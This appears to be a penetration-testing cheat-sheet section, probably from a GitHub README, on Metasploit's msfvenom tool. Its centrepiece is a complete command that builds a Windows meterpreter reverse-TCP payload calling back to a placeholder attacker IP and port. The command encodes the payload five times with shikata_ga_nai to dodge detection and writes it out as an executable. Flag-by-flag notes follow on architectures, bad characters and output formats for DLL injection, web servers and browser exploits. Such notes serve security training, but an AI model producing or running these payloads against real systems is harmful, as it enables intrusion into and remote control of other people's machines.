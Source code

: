 #### Encoders
```bash
msfvenom -l encoders
```

##### Example Command
```bash
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=<Your IP> LPORT=<Your Port> -b "\x00" -e x86/shikata_ga_nai -i 5 -f exe > output.exe
```

###### Architecture
`-a x86`: Specifies the architecture of the payload. You can also try
+ `x64` For 64-bit systems.
+ `armle` For little-endian ARM systems.
+ `mipsbe` For big-endian MIPS systems.

###### Platform
`--platform Windows`: Specifies the platform of the payload. You can also try
+ `Linux`: For Linux systems.
+ `Android`: For Android devices.
+ `OSX`: For Apple’s macOS systems.

###### Payload
`-p windows/meterpreter/reverse_tcp`: Specifies the payload to generate.

###### LHOST
`LHOST=<Your IP>`: Sets the IP address for the payload to connect back to.

###### LPORT
`LPORT=<Your Port>`: Sets the port for your system to listen on.

###### Characters to avoid
`-b "\x00"`: Specifies a list of characters to avoid in the payload. Also can try: 

- `-b "\x00"`: Avoid characters in the payload.
- `\x00`: Null byte; terminates strings.
- `\x0A`: Line feed; can end commands in UNIX.
- `\x0D`: Carriage return; signals end of data in Windows.
- `\x20`: Space; can alter script or command behavior.

`-e x86/shikata_ga_nai`: Specifies the encoder to use on the payload.

###### Payload Format
See: `msfvenom --help-formats`

- `-f exe`: Windows executable format, ideal for direct execution on Windows systems.
- `-f elf`: ELF binary for Linux systems.
- `-f war`: Java Web Archive, targets Java-based server applications.
- `-f asp`: ASP script for older IIS servers.
- `-f php`: PHP script for web servers supporting PHP execution.
- `-f python`: Python script for systems with Python available.
- `-f js_be`: JavaScript for browser exploit scenarios.
- `-f raw`: Raw shellcode for direct injection or exploit development.
- `-f dll`: Windows Dynamic Link Library, suitable for DLL injection/hijacking.
